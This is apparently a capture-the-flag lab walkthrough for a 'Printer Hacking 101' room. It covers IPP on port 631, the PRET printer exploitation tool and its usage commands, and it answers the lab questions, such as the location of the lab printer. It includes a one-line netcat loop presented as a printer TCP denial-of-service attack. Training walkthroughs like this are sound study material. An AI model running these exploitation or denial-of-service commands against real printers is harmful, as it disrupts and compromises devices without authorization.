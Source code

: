 ### Printer Hacking 101


*The Internet Printing Protocol (IPP) - is a specialized Internet protocol for communication between client devices and printers. It allows clients to submit one or more print jobs to the printer or print server, and perform tasks such as querying the status of a printer, obtaining the status of print jobs, or canceling individual print jobs.*


What port does IPP run on?
## 631

>we'll be using a Printer exploitation tool

# git clone https://github.com/RUB-NDS/PRET && cd PRET
# 
# python2 -m pip install colorama pysnmP
>most unix machines today run on python3 hence you can use python3

>run the python file 
 # python pret.py

 >this python file executed a program that locates printers
 >an automatic printer discovery in your local network
 >possible to run an Nmap scan however it might take longer and the pret.py scan **only targets ports which printer communication on by default** thus making it faster 


 ### Explooitation
 >run these commands 

```
python pret.py {IP} pjl
python pret.py laserjet.lan ps
python pret.py /dev/usb/lp0 pcl 
```

>Print Server​​ The primary mechanism for Ubuntu printing and print services is the Common UNIX Printing System (CUPS)



### Questions
1. How would a simple printer TCP DoS attack look as a one-line command?
> while true; do nc printer 9100; done

2. Review the cheat sheet provided in the task reading above. What attack are printers often vulnerable to which involves sending more and more information until a pre-allocated buffer size is surpassed?
>buffer overflows

>> USE THE CHEAT SHEET



# use the IP & port provided in the ba example to browse
## http://10.10.243.233:631


3. Connect to the printer per the instructions above. Where's the Fox_Printer located?
> Skidy's basement
4. What is the size of a test sheet?
> 1k


## Task 4

### Done !!!